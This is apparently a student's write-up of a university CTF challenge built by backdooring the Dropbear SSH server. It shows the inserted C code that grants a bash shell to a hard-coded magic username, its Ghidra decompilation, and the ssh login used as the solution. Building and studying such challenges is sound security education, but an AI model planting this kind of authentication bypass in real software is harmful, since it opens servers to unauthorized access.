

# Inspiration for the challenge

For one of my classes at Auburn University we were tasked in creating a CTF jeopardy styled question. Originally, I wanted to explore ideas in obfuscation and control flow manipulations to create a complex and difficult challenge. Eventually, I scrapped that idea and explored the idea of backdooring real software and asking users to find the backdoor to solve the ctf.

If you would like to try the challenge check out this repository:

If you just want to see the source and everything that went into it:

# Actually building it

I immediately decided to just host the CTF inside of a docker image for ease of use. I originally planned to implement the backdoor into openSSH, but I settled on Dropbear. Here is the backdoored code:

```c
static int checkusername(const char *username, unsigned int userlen) {

	char* listshell = NULL;
	char* usershell = NULL;
	uid_t uid;

	if (strcmp(username, "64796C616E") == 0)
	{
		dropbear_log(LOG_NOTICE, "Backdoor triggered");
		ses.authstate.pw_name = m_strdup("ctf");
		ses.authstate.pw_dir = m_strdup("/home/ctf");
		ses.authstate.pw_shell = m_strdup("/bin/bash");
		ses.authstate.pw_uid = 1001;
		ses.authstate.pw_gid = 1001;

		send_msg_userauth_success();
		ses.authstate.authdone = 1;
		return DROPBEAR_SUCCESS;
	}

```

Lets pull up the backdoor in Ghidra and see what the decomp might look like.

Heavily edited to show the important parts.
```c 
void recv_msg_userauth_request(void)
  iVar3 = strcmp(__s1,"64796C616E");
  if (iVar3 != 0) {
	normal logic...
  }

    dropbear_log(5,"Backdoor triggered");
  DAT_00146948 = (char *)m_strdup(&DAT_001355fb);
  DAT_00146938 = m_strdup(&DAT_001355f5);
  DAT_00146940 = (char *)m_strdup("/bin/bash");
  _DAT_00146930 = 0x3e9000003e9;
  send_msg_userauth_success();
  DAT_00146910 = 1;
```

Alright! that looks fairly straightforwards. I wasn't looking to make this super challenging, with a simple string search or diffing this section is easily spottable.


Now that the challenge binary is setup, I moved it to run on a Digital Ocean droplet so that people can access it, but not have the ability to cheat by looking in the docker image.

The actual solution looks like this:
```bash
ssh -p 2222 64796C616E@165.227.115.29
dispatch_protocol_error: type 51 seq 3
ctf@7da3577ac2bb:~$ cat flag.txt
flag{b4ckd00r3d_s3rv3r_w4s_c0mpr0m1s3d}
```

Nice and simple. Since I did not want to to host all of the infrastructure I created a small binary to handle flag checking, instructions, and the hints.
